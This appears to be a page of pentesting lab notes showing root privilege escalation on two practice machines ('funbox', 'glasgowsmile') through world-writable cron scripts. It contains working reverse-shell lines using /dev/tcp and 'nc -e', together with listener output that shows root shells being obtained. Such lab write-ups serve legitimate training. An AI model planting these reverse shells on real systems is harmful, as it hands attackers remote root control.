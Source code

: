 ```yaml
---
layout: default
title: Writable Script
parent: Cron
nav_order: 2
---
```


# Writable Script

---

## /bin/bash Reverse Shell

Enumerate user _funny_ home directory and locate a _.backup.sh_ that is creating a backup of _/var/www/html_ every 1 minute.

```bash
joe@funbox:/home/funny$ ls -la
ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Nov 16 03:36 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html

```

_.backup.sh_ is world writeable so we can edit this script to give us a reverse shell as _root_ user.

```bash
joe@funbox:/home/funny$ echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1
```

After a couple minutes we get a reverse shell as _root_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 41312
bash: cannot set terminal process group (4896): Inappropriate ioctl for device
bash: no job control in this shell
root@funbox:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# whoami
whoami
root
root@funbox:~# cat /root/proof.txt
cat /root/proof.txt
3d96************************
```

## Netcat Reverse Shell

The script _.trash_old_ should execute with root permissions.

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Nov 18 22:03 .
drwxr-xr-x 5 penguin penguin   4096 Nov 18 21:59 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       662 Nov 18 22:03 .trash_old
-rw-r----- 1 penguin penguin     32 Aug 25  2020 user3.txt

```

Assuming this is probably being executed by _root_ on a cron job, let's edit and add a command that creates a _rootbash_ script with root privileges.

```bash
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

nc -e /bin/bash 192.168.45.217 9001

exit 0


```

After a minute we get a reverse shell as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.202.79] 37926
whoami
root

```
